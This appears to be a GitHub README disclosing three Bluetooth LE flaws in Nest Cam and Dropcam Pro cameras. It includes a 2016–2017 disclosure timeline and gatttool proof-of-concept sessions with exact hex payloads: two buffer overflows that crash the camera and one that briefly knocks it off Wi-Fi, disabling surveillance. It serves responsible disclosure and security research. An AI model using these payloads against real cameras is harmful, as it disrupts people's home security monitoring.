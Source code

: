 # Google-Nest-Cam-Bug-Disclosures

Affected: Dropcam Pro, Nest Cam Indoor/Outdoor models<br />
Latest Build Tested: 205-600052<br />
Fixed Build: 205-600055<br />

Disclosure Timeline:<br />
October 26, 2016: Reported security bug per Google's Vulnerability Reward Program guidelines<br />
October 27, 2016: Google Security Team acknowledged that the report was received and being investigated<br />
November 1, 2016: Google Security Team validated the reported vulnerabilities and filed a bug<br />
November 15, 2016: Google's VRP panel issued a $100 reward under "Non-integrated acquisitions"<br />
March 17, 2017: Public disclosure<br />

PoC iOS app by Troy Stribling :: <a href="https://github.com/troystribling/NestPWN">NestPWN</a>

<h3>Bluetooth (BLE) based Buffer Overflow via SSID parameter</h3>

1. Summary<br />
It's possible to trigger a buffer overflow condition when setting the SSID parameter on the camera. The attacker must be in bluetooth range at any time during the cameras powered on state. Bluetooth is never disabled even after initial setup.

2. Proof of Concept<br />
`anon@ubuntu:~/nest$ gatttool -b 18:B4:30:5D:00:B8 -t random -I`<br />
`[18:B4:30:5D:00:B8][LE]> connect`<br />
`Attempting to connect to 18:B4:30:5D:00:B8`<br />
`Connection successful`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3a031201AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3b`<br />
`Characteristic value was written successfully`<br />
`Characteristic value was written successfully`<br />
`[18:B4:30:5D:00:B8][LE]>`<br />
`(gatttool:20352): GLib-WARNING **: Invalid file descriptor.`<br />

3. Details<br />
The payload attempts to set an SSID with a length of 1 byte and sends 16.<br />
SequenceNum=3a + Type=0312 + Length=01 + Value=AA*16<br />

4. Result<br />
Crash and reboot back to operational state

<h3>Bluetooth (BLE) based Buffer Overflow via Encrypted Password parameter</h3>

1. Summary<br />
It's possible to trigger a buffer overflow condition when setting the encrypted password parameter on the camera. The attacker must be in bluetooth range at any time during the cameras powered on state. Bluetooth is never disabled even after initial setup.

2. Proof of Concept<br />
`anon@ubuntu:~/nest$ gatttool -b 18:B4:30:5D:00:B8 -t random -I`<br />
`[18:B4:30:5D:00:B8][LE]> connect`<br />
`Attempting to connect to 18:B4:30:5D:00:B8`<br />
`Connection successful`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3a03120b506574536d6172742d356e1a01AAAAAA`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3b`<br />
`Characteristic value was written successfully`<br />
`Characteristic value was written successfully`<br />
`[18:B4:30:5D:00:B8][LE]> `<br />
`(gatttool:20352): GLib-WARNING **: Invalid file descriptor.`<br />

3. Details<br />
The payload attempts to set the encrypted wifi password with a length of 1 byte and sends 3.<br />
SequenceNum=3a + Type=0312 + Length=0b + ssidVal=506574536d6172742d356e + type=1a + length=01 + encPass=AA*3<br />

4. Result<br />
Crash and reboot back to operational state


<h3>Bluetooth (BLE) based Wifi Disassociation</h3>

1. Summary<br />
It's possible to temporarily disconnect the camera from Wifi by supplying it a new SSID to connect to. Local storage of video footage is not supported by these cameras so surveillance is temporarily disabled. The attacker must be in bluetooth range at any time during the cameras powered on state. Bluetooth is never disabled even after initial setup.

2. Proof of Concept<br />
`anon@ubuntu:~/nest$ gatttool -b 18:B4:30:5D:00:B8 -t random -I`<br />
`[18:B4:30:5D:00:B8][LE]> connect`<br />
`Attempting to connect to 18:B4:30:5D:00:B8`<br />
`Connection successful`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3a03120b0a6574536d6172742d356e1a20232320`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3becb824ba437c13233ac2ff78b1776456e47a01`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3ca5787d2f5e53f394a512200228003210bc9253`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3d48cada7a0d921d57b2d26ae89c3a04DEADBEEF`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3e`<br />
`Characteristic value was written successfully`<br />
`Characteristic value was written successfully`<br />
`Characteristic value was written successfully`<br />
`Characteristic value was written successfully`<br />
`Characteristic value was written successfully`<br />
`[18:B4:30:5D:00:B8][LE]> `<br />

3. Details<br />
The payload attempts to change Nest Cam's associated SSID causing temporary disassociation from the current Wifi SSID. Without knowing the encryption key, a valid password can not be set.
seqNum + 0312(type) 0b(len) + SSID + 1a(type) 20(len) + encPass
seqNum + encPass(cont)
seqNum + encPass(cont) + 2002280032(constant) + 10(len) + authTag
seqNum + authTag(cont) + 3a(UnknownType) 04(len) + DEADBEEF
seqNum(execute)

4. Result<br />
Camera dissociates from current wifi network to attempt association with newly set SSID. The camera goes offline for approximately 60-90 seconds before returning to the original Wifi network and resuming normal operation. 
